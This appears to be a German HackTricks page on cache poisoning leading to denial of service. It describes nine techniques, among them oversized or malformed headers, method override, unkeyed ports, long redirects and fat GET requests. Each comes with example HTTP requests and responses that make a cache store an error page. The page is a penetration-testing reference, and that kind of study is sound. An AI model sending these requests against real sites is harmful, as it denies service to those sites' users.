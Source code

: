 # Cache Poisoning to DoS

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

{% hint style="danger" %}
Auf dieser Seite finden Sie verschiedene Variationen, um zu versuchen, den **Webserver dazu zu bringen, mit Fehlern** auf Anfragen zu reagieren, die **gültig für die Cache-Server sind**
{% endhint %}

* **HTTP Header Oversize (HHO)**

Senden Sie eine Anfrage mit einer Headergröße, die größer ist als die vom Webserver unterstützte, aber kleiner als die vom Cache-Server unterstützte. Der Webserver wird mit einer 400-Antwort reagieren, die möglicherweise zwischengespeichert wird:
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTP-Meta-Zeichen (HMC) & Unerwartete Werte**

Senden Sie einen Header, der einige **schädliche Meta-Zeichen** wie `\n` und `\r` enthält. Damit der Angriff funktioniert, müssen Sie zuerst den Cache umgehen.
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
Ein schlecht konfiguriertes Header könnte einfach `\:` als Header sein.

Dies könnte auch funktionieren, wenn unerwartete Werte gesendet werden, wie ein unerwarteter Content-Type:
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **Unkeyed header**

Einige Websites geben einen Fehlerstatuscode zurück, wenn sie **bestimmte Header i**n der Anfrage sehen, wie mit dem _X-Amz-Website-Location-Redirect: someThing_ Header:
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTP Method Override Attack (HMO)**

Wenn der Server das Ändern der HTTP-Methode mit Headern wie `X-HTTP-Method-Override`, `X-HTTP-Method` oder `X-Method-Override` unterstützt, ist es möglich, eine gültige Seite anzufordern, indem die Methode geändert wird, sodass der Server sie nicht unterstützt und eine fehlerhafte Antwort zwischengespeichert wird:
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **Unkeyed Port**

Wenn der Port im Host-Header in der Antwort reflektiert wird und nicht im Cache-Schlüssel enthalten ist, ist es möglich, ihn auf einen ungenutzten Port umzuleiten:
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **Long Redirect DoS**

Wie im folgenden Beispiel wird x nicht zwischengespeichert, sodass ein Angreifer das Verhalten der Umleitungsantwort ausnutzen könnte, um die Umleitung eine URL so groß senden zu lassen, dass sie einen Fehler zurückgibt. Dann erhalten Personen, die versuchen, die URL ohne den nicht zwischengespeicherten x-Schlüssel aufzurufen, die Fehlerantwort:
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **Normalisierung der Groß- und Kleinschreibung des Host-Headers**

Der Host-Header sollte nicht zwischen Groß- und Kleinschreibung unterscheiden, aber einige Websites erwarten, dass er in Kleinbuchstaben vorliegt und geben einen Fehler zurück, wenn dies nicht der Fall ist:
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **Pfadnormalisierung**

Einige Seiten geben Fehlercodes zurück, wenn Daten URLencode im Pfad gesendet werden, jedoch wird der Cache-Server den Pfad URLdecode und die Antwort für den URLdecoded Pfad speichern:
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

Einige Cache-Server, wie Cloudflare, oder Webserver, stoppen GET-Anfragen mit einem Body, sodass dies missbraucht werden könnte, um eine ungültige Antwort zu cachen:
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## Referenzen

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
